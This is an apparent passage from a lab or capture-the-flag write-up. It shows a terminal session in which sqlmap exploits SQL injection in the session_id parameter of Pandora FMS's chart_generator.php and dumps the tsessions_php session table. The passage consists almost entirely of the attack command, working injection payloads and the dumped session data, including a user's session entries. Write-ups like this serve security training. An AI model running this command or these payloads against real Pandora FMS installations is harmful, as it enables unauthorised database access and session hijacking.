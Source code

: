 Dumping values from ```tsession_php``` table,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ sqlmap --url="http://localhost:8081/pandora_console/include/chart_generator.php?session_id=''" --dbms=mysql -D pandora -T tsessions_php  --dump    
        ___
       __H__                                                                                                                                                 
 ___ ___[,]_____ ___ ___  {1.6.3#stable}                                                                                                                     
|_ -| . ["]     | .'| . |                                                                                                                                    
|___|_  ["]_|_|_|__,|  _|                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:27:32 /2022-03-30/

[13:27:32] [INFO] testing connection to the target URL
[13:27:33] [WARNING] potential permission problems detected ('Access denied')
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=92h891j6qs1...2e4r9vlg39'). Do you want to use those [Y/n] y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: session_id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: session_id=-5176' OR 2190=2190#

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: session_id=''' OR (SELECT 2464 FROM(SELECT COUNT(*),CONCAT(0x71766a6271,(SELECT (ELT(2464=2464,1))),0x7171626a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- IdPE

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: session_id=''' AND (SELECT 2215 FROM (SELECT(SLEEP(5)))mPZg)-- gdEY
---
[13:27:34] [INFO] testing MySQL
[13:27:34] [INFO] confirming MySQL
[13:27:35] [WARNING] reflective value(s) found and filtering out
[13:27:35] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.10 or 20.04 or 19.10 (eoan or focal)
web application technology: PHP, Apache 2.4.41
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[13:27:35] [INFO] fetching columns for table 'tsessions_php' in database 'pandora'

...

Database: pandora
Table: tsessions_php
[56 entries]
+----------------------------+-----------------------------------------------------+-------------+
| id_session                 | data                                                | last_active |
+----------------------------+-----------------------------------------------------+-------------+
| 09vao3q1dikuoi1vhcvhcjjbc6 | id_usuario|s:6:"daniel";                            | 1638783555  |
| 0ahul7feb1l9db7ffp8d25sjba | NULL                                                | 1638789018  |
| 130or2fa7sjfo5alc260nutu0t | id_usuario|s:6:"daniel";                            | 1648652125  |
```